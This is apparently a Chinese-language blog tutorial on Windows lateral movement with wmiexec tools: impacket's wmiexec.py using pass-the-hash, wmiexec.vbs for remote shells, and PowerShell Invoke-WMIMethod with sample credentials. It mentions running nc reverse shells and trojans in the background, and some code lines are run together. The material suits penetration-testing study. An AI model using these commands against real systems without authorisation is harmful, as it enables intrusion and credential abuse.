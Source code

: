 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBl06ibMyWu9LFzhYPNbSFgy5LIDAP0E1MakYia33heXjuUQqZcWOjFmzOg/640?wx_fmt=png)

wmiexec
-------

`wmiexec`是 windows 自带的`wmic`的加强版，在渗透过程中使用`wmiexec`会比`wmic`和`psexec`更加方便，这里就介绍几种常用的`wmiexec`工具进行渗透。

### impacket 中的 wmiexec.py

首先在 github 上下载`impacket`安装包：https://github.com/SecureAuthCorp/impacket

使用命令

```
python wmiexec.py -hashes LM Hash:NT Hash 域名/用户名@目标IP    // 哈希传递获得shellpython wmiexec.py -hashes LM Hash:NT Hash 域名/用户名@目标IP "ipconfig"   // 执行命令
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlNWvFRL3Fd1ObYNWicI7t5ibE2Jka8IqmQZ1UCSoBN72G8bgRjznlQM4g/640?wx_fmt=png)

注意：对于运行时间较长的命令，例如`ping`、`systeminfo`等，需要添加`-wait 5000`或更长时间的参数。

由于正常的命令都要查看结果，所以执行的命令后面都会加上重定向符，把结果输出到文件中。所以`wmiexec.vbs`在运行 nc 反弹 shell 或者 msf 木马木马等不需要输出结果但需要一直运行的程序时，因为木马进程会一直存在，导致结果文件被占用，不能删除，也不能改写。出现这种情况后由于结果文件被占用，所以`WMIEXEC`不能工作，除非手动更改脚本中的结果文件名。或者可以用 taskkill 远程结束掉卡死的进程，然后`WMIEXEC`可以恢复工作。为了解决这个问题，加入了 “-persist” 选项。

当命令加了 “`-persist`” 选项后，程序会在后台运行，不会有结果输出，而且会返回这个命令进程的 PID，方便结束进程。

### wmiexec.vbs

`wmiexec.vbs` 可以在远程系统中执行命令并进行回显，获得远程主机的半交互式 shell

```
cscript.exe //nologo wmiexec.vbs /shell 192.168.10.3 administrator <password>
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlLCt9uynIQC9mjoTdFfBWVyFbIJN0KUSxxlNk6yblrH3W215zoDYJOQ/640?wx_fmt=png)

输入如下命令，使用 `wmiexec.vbs` 在远程主机上执行单条命令

```
cscript.exe //nologo wmiexec.vbs /cmd 192.168.10.3 administrator <password> "命令"
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBl8gYVMb7iarUGJibibc2l35ebJjmsDrytBMNjaUAoqyAIMSjJb5INUHvqQ/640?wx_fmt=png)

### Invoke-WMIMethod

利用 `PowerShell` 自带的 `Invoke-WMIMethod`，可以在远程系统主机上执行命令和指定程序

```
#目标系统用户名$User = "WIN-U8TRGT93CTR\administrator"#目标系统密码$Password= ConvertTo-SecureString -String "qwe123!@#" -AsPlainText -Force#账号密码整合，导入Credential$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User , $Password#远程运行计算器程序Invoke-WMIMethod -Class Win32_Process -Name Create -ArgumentList "calc.exe" -ComputerName "192.168.10.3" -Credential $Cred
```
